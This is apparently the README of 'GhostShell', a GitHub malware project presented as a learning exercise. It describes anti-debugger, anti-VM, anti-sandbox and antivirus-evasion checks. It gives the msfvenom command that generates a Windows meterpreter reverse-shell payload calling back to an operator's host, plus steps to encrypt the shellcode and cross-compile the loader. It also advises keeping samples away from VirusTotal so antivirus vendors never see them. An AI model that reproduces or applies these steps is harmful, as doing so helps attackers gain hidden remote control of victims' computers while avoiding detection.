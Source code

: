 <div align="center">
  <h1 align="center"> GhostShell </h1>
  <p align="center"> In this malware, are used some techniques to try bypass the AVs, VMs, and Sandboxes, with only porpuse to learning more. I'm not responsible for your actions. </p>


  <p align="center"> 
    <img alt="license" src="https://img.shields.io/github/license/ReddyyZ/GhostShell"/>
    <img alt="last-commit" src="https://img.shields.io/github/last-commit/ReddyyZ/GhostShell"/>
    <img alt="made-by" src="https://img.shields.io/badge/made%20by-ReddyyZ-red"/>
    <img alt="size" src="https://img.shields.io/github/repo-size/ReddyyZ/GhostShell"/>
    <img alt="binary-size" src="https://img.shields.io/badge/binary%20size-46%2C8%20KB-blue"/>
  </p>
  <p align="center">
    <a href="https://github.com/ReddyyZ"> <img alt="followers" src="https://img.shields.io/github/followers/ReddyyZ?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/stargazers"><img alt="stars" src="https://img.shields.io/github/stars/ReddyyZ/GhostShell?style=social"/></a>
    <a href="https://github.com/ReddyyZ/GhostShell/network/members"><img alt="forks" src="https://img.shields.io/github/forks/ReddyyZ/GhostShell?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/watchers"><img alt="watchers" src="https://img.shields.io/github/watchers/ReddyyZ/GhostShell?style=social"/> </a>
  </p>
  
</div>

<p align="center">
  <a href="#bomb-bypass-techniques"> Bypass Techniques </a> |
  <a href="#radioactive-generating-the-shellcode"> Generating the Shellcode </a> |
  <a href="#computer-how-to-compile-for-windows-on-linux"> How to compile for Windows on Linux </a> |
  <a href="#book-credits"> Credits </a> |
  <a href="#memo-license"> License </a>
</p>


- ## :warning: Atention!!!
**To check if the antivirus is detecting the malware, NEVER send it to the virustotal, IT WILL BE SENT TO THE ANTIVIRUS COMPANIES AND WILL BE BROKEN, to analyze, send it to https://www.hybrid-analysis.com/ and remember to check the option "Do not send my sample to non-affiliated third parties", as in the example below.**




- ## :bomb: Bypass Techniques

### **Anti-Debugger**

To try bypass the Debuggers, I'm using the "IsDebuggerPresent()" of "Windows.h" librarie to checks if a debugger is running.

### **Anti-VM / Anti-Sandbox / Anti-AV**

- **Enumerate Process Function**

  Enumerates all process running on the system, and compares to the process in the black-list, if found a process and this is equal to any process in the black-list returns -1 (identified).

- **Sleep Acceleration Check Function**

  First, gets the current time, and sleeps 2 minutes, then, gets the time again, and compare, if the difference is less than 2, returns -1 (identified).

- **Mac Address Check Function**

  Gets the system mac address and compare to the macs, in the black-list, if the system mac address is equal to any mac in the black-list returns -1 (identified).


- ## :radioactive: Generating the Shellcode
![Generating](/assets/generating%20shellcode.gif)

To generate the shellcode type in the terminal: ``` msfvenom -p windows/meterpreter/reverse_shell lhost=(IP) lport=(PORT) -f c ```, copy the shellcode generated and encrypt it.                                                                                                 

To encrypt shellcode use the encrypt_shellcode script.                                                                                   
On linux type: ``` ./encrypt_shellcode e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)"" ```                                      
On windows type: ``` encrypt_shellcode.exe e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(YOUR_SHELLCODE)"" ```



- ## :computer: How to compile for Windows on Linux

To compile for Windows on Linux, first, install mingw-w64: ``` sudo apt-get install mingw-w64 ```, then, to compile for 32 bits: ``` i686-w64-mingw32-gcc -o main.exe main.c -l psapi -static ```, and to 64 bits: ``` x86_64-w64-mingw32 -o main.exe main.c -l psapi -static ```

-  ## :book: Credits

Credits for https://github.com/rastating, the encrypt_shellcode is based on a post of your github.io: https://rastating.github.io/creating-a-shellcode-crypter/



- ## :memo: License

This project is under MIT license. See at here [LICENSE](/LICENSE.md) for more informations.
